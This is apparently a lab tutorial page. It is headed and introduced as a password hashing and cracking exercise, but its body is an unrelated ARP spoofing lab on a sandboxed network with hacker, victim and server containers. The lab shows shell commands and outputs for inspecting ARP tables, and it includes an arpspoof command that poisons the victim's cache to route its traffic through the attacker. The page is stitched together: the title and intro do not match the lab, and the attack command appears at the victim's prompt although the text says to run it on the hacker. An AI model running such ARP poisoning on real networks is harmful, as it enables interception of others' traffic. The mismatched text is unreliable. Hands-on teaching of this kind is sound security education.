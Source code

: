 ## Password Hashing and Cracking
Password is an important user authentication mechanism. Passwords are stored in the database as
hashes rather than plain text. If users’ passwords are stored in a database as plain text, malicious
hackers can get immediate access to them if they break into the system. In this lab, you will
understand what password hash is and how password hash be cracked.

## Password Hashing
A hash function turns any amount of data into a fixed-length “fingerprint” that cannot be reversed.
The fixed-length “fingerprint” is called a hash value or hash code. 
The unique feature of hash
functions is that any change in input data will result in a completely different hash code.
Cryptographic hash functions are used to implement password hashing. There are multiple
cryptographic hash functions, such as MD5, SHA-2.

> ## Getting Started
> 
> You will need to create an account on [CHEESEHub](https://www.hub.cheesehub.org) to work through this exercise.
> Each container in this demonstration has a web interface and is accessible through your web browser, no other special software 
> is needed.
{: .callout} 

We will start by first adding the ArpSpoof application:

![Add ArpSpoof]({{ page.root }}/fig/arpspoof/add-arpspoof.png)

Next, click the *View* link to go to the application-specific page and start the application containers:

![Start Containers]({{ page.root }}/fig/arpspoof/start-containers.png)

> ## Container Launch Errors
>
> If a container fails to start, you will see a flashing warning icon next to the container's name. Take a look at the logs to 
> determine the cause of failure and try deleting the application and restarting.
{: .callout}

Once all the containers have started, launch each container's web interface in a separate browser tab by clicking the icon 
next to the container's name:

![Launch Containers]({{ page.root }}/fig/arpspoof/launch-containers.png)

We will start with the hacker. On the hacker browser tab, click on **Hacker.ipynb** to open a Jupyter notebook with instructions on 
conducting the attack:

![Open Hacker Notebook]({{ page.root }}/fig/arpspoof/hacker-notebook.png)

The next step is to find the IP address of the server. On the server browser tab, launch a new terminal window from the Jupyter 
notebook page:

![Server Terminal]({{ page.root }}/fig/arpspoof/launch-server-terminal.png)

To find the IP address of the server, use the *ifconfig* command at the server terminal:

~~~
jovyan@arpspoofserver:~$ ifconfig
~~~
{: .language-bash}

~~~
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1376
	inet 10.32.0.6 netmask 255.240.0.0 broadcast 10.47.255.255
	...
~~~
{: .output}

Make a note of the *inet* address returned on your terminal. Next, we will determine the IP address of the victim.

Launch a terminal in the victim browser window:

![Open Victim Terminal]({{ page.root }}/fig/arpspoof/victim-terminal.png)

Find the IP address of the victim using *ifconfig* at the victim terminal:

~~~
victim@arpspoofvictim:~$ ifconfig
~~~
{: .language-bash}

~~~
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1376
	inet 10.32.0.7 netmask 255.240.0.0 broadcast 10.47.255.255
	...
~~~
{: .output}

Now, inspect the ARP table on the victim (it only has one entry; the gateway):

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
~~~
{: .output}

Next ping the server:

~~~
victim@arpspoofvictim:~$ ping 10.32.0.6
~~~
{: .language-bash}

~~~
PING 10.32.0.6 (10.32.0.6): 56 data bytes
64 bytes from 10.32.0.6: icmp_seq=0 ttl=64 time=0.171 ms
64 bytes from 10.32.0.6: icmp_seq=1 ttl=64 time=0.096 ms
64 bytes from 10.32.0.6: icmp_seq=2 ttl=64 time=0.072 ms
64 bytes from 10.32.0.6: icmp_seq=3 ttl=64 time=0.085 ms
...
~~~
{: .output}

Recheck the ARP table on the victim:

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
10.32.0.6	ether		fa:65:b8:f5:81:46	C			eth0
~~~
{: .output}

It now has an entry for the server's IP. Now check the route to the server:

~~~
victim@arpspoofvictim:~$ traceroute 10.32.0.6
~~~
{: .language-bash}

~~~
traceroute to 10.32.0.6 (10.32.0.6), 64 hops max
1	10.32.0.6	0.003ms		0.002ms		0.001ms
~~~
{: .output}

Now we will conduct the ARP poisoning attack from the hacker. Open a terminal window on the hacker:

![Open Hacker Terminal]({{ page.root }}/fig/arpspoof/launch-hacker-terminal.png)

Run the *arpspoof* command on the hacker terminal with the victim and server IP addresses:

~~~
victim@arpspoofvictim:~$ sudo arpspoof -t 10.32.0.7 10.32.0.6
~~~
{: .language-bash}

~~~
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
~~~
{: .output}

> ## Order of arguments
> Note the order of arguments to the *arpspoof* command; the victim IP comes first followed by 
> the server IP address.
{: .callout}

Now ping the server again from the victim. You may need to wait a bit to see the output below:

~~~
victim@arpspoofvictim:~$ ping 10.32.0.6
~~~
{: .language-bash}

~~~
PING 10.32.0.6 (10.32.0.6): 56 data bytes
64 bytes from 10.32.0.6: icmp_seq=0 ttl=64 time=0.121 ms
64 bytes from 10.32.0.6: icmp_seq=1 ttl=64 time=0.082 ms
64 bytes from 10.32.0.6: icmp_seq=2 ttl=64 time=0.071 ms
64 bytes from 10.32.0.6: icmp_seq=3 ttl=64 time=0.096 ms
...
~~~
{: .output}

Let's recheck the ARP tables on the victim:

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
10.32.0.6	ether		da:ee:b1:44:c2:78	C			eth0
10.32.0.8	ether		da:ee:b1:44:c2:78	C			eth0
~~~
{: .output}

> ## What is wrong with this ARP table?
> Notice that the server's IP address entry now has a different MAC (HWaddress) that before.
> Also, there are two IP addresses, both with the same MAC address. 10.32.0.8 is the IP address 
> of the hacker. Astute observers will also note that this MAC address was the response the *arpspoof*
> command was returning.
{: .callout}

Now check the route from the victim to the server:

~~~
victim@arpspoofvictim:~$ traceroute 10.32.0.6
~~~
{: .language-bash}

~~~
traceroute to 10.32.0.6 (10.32.0.6), 64 hops max
1	10.32.0.8	0.003ms		0.002ms		0.002ms
2	10.32.0.6	0.002ms		0.002ms		0.002ms
~~~
{: .output}

> ## What does traceroute tell us?
> There are now two hops that each message from the victim to the server is taking; first to the hacker 
> and then to the server.
{: .callout}

{% include links.md %}
